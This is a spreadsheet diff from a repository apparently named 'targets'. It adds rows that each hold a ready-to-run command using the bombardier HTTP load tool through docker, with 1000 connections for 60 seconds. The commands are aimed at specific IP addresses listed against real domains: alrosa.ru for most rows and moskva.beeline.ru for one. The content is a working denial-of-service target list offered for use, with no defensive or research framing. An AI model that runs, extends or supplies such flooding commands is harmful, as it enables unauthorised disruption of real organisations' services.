

Before and after one commit to dmitryshagin/targets, an Excel workbook: test.xlsx, sheet Sheet1, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Add files via upload

```diff
--- a/test.xlsx (sheet Sheet1)
+++ b/test.xlsx (sheet Sheet1)
+row 143: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.118.87.98&& sleep 5; | 217.118.87.98 | moskva.beeline.ru
+row 144: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 130.193.45.110&& sleep 5; | 130.193.45.110 | alrosa.ru
+row 145: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.154.206.111&& sleep 5; | 178.154.206.111 | alrosa.ru
+row 146: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.154.228.9&& sleep 5; | 178.154.228.9 | alrosa.ru
+row 147: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.154.239.11&& sleep 5; | 178.154.239.11 | alrosa.ru
+row 148: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.154.239.20&& sleep 5; | 178.154.239.20 | alrosa.ru
+row 149: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 178.154.247.244&& sleep 5; | 178.154.247.244 | alrosa.ru
+row 150: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.28.229.45&& sleep 5; | 217.28.229.45 | alrosa.ru
+row 151: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.28.230.180&& sleep 5; | 217.28.230.180 | alrosa.ru
+row 152: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 217.28.231.240&& sleep 5; | 217.28.231.240 | alrosa.ru
+row 153: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 46.111.126.86&& sleep 5; | 46.111.126.86 | alrosa.ru
+row 154: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 51.250.10.20&& sleep 5; | 51.250.10.20 | alrosa.ru
+row 155: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 51.250.11.198&& sleep 5; | 51.250.11.198 | alrosa.ru
+row 156: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 51.250.12.215&& sleep 5; | 51.250.12.215 | alrosa.ru
+row 157: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 62.84.116.131&& sleep 5; | 62.84.116.131 | alrosa.ru
+row 158: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.201.174.198&& sleep 5; | 84.201.174.198 | alrosa.ru
+row 159: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.201.190.135&& sleep 5; | 84.201.190.135 | alrosa.ru
+row 160: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 84.252.131.92&& sleep 5; | 84.252.131.92 | alrosa.ru
+row 161: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.202.234.12&& sleep 5; | 91.202.234.12 | alrosa.ru
+row 162: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.202.234.13&& sleep 5; | 91.202.234.13 | alrosa.ru
+row 163: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.207.140.19&& sleep 5; | 91.207.140.19 | alrosa.ru
+row 164: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.207.140.252&& sleep 5; | 91.207.140.252 | alrosa.ru
+row 165: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.207.140.254&& sleep 5; | 91.207.140.254 | alrosa.ru
+row 166: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.207.140.29&& sleep 5; | 91.207.140.29 | alrosa.ru
+row 167: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.207.140.32&& sleep 5; | 91.207.140.32 | alrosa.ru
+row 168: sudo docker run -it alpine/bombardier -c 1000 -d 60s -l 91.207.140.46&& sleep 5; | 91.207.140.46 | alrosa.ru
```
